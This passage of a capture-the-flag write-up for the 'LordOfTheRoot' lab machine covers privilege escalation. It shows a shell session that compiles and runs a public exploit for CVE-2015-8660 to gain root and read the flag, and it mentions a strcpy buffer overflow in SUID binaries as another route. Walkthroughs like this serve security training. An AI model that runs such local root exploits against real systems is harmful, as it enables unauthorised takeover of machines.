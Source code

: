 ### 6 --  Whats the method to exploit the system for privilege escalation called?

Researching the vulnerable Linux version linpeas found, we found a vulnerable linux version that will allow us to get root, but there were also three interesting files in the `/SECRET` directory which have the SUID bit set and take in a user input string which seems to get passed to the vulnerable `strcpy()` function. I didn't go this route but it seems we could also leverage this buffer overflow to escalate privileges.
```
buffer overflow
```

### 7 --  Who wrote the message in the flag message in the roots home directory?

The vulnerability related to this linux version is [CVE-2015-8660](https://nvd.nist.gov/vuln/detail/CVE-2015-8660) and exploitDB has an [exploit](https://www.exploit-db.com/exploits/39166) for this that we can leverage to get root. Downloading the source code from exploitDB and putting it into a file on the server, compiling, then running gets us root access:

```bash
smeagol@LordOfTheRoot:/tmp$ vi exploit.c
smeagol@LordOfTheRoot:/tmp$ gcc exploit.c -o exploit
smeagol@LordOfTheRoot:/tmp$ ./exploit
root@LordOfTheRoot:/tmp# id
uid=0(root) gid=1000(smeagol) groups=0(root),1000(smeagol)
root@LordOfTheRoot:/tmp# cd /root
root@LordOfTheRoot:/root# ls
buf  buf.c  Flag.txt  other  other.c  switcher.py
root@LordOfTheRoot:/root# cat Flag.txt
“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf
root@LordOfTheRoot:/root#
```
